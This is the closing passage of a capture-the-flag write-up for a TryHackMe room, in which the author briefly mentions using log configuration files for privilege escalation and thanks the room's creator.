

That's all y'all, this box was super cool as it's the first time I've used log configuration files to schedule commands for privilege escalation. Big thanks to [toxicat0r](https://tryhackme.com/p/toxicat0r) for making another great challenge, I recommend taking a look at other rooms created by him.

I hope this was helpful to anyone stuck or following along and happy hacking!
